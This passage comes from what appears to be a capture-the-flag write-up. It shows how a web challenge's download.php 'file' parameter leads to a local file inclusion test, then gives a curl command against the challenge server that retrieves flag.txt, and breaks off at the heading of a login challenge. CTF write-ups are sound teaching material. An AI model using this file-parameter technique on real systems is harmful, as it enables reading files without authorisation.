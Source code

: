 <figcaption>source codes</figcaption>
</figure>
```bash
<li><a href="download.php?file=document.txt">Download</a>
```
we can see some file query with `file` parameters. Let's look for `LFI` things.

4.Trying LFI and getting flag
<figure>
<img src="/assets/img/urchin/route/flag.png" alt="flag">
<figcaption>getting flag</figcaption>
</figure>
After clicking Enter you will download a flag.txt file

or simply in shell

```console
└─$ curl http://178.128.46.171:9004/download.php?file=flag.txt  
urchin{LFI_pr3tty_l4m333}
```
**Done pew pew**
#### 6. Login challenge
<figure>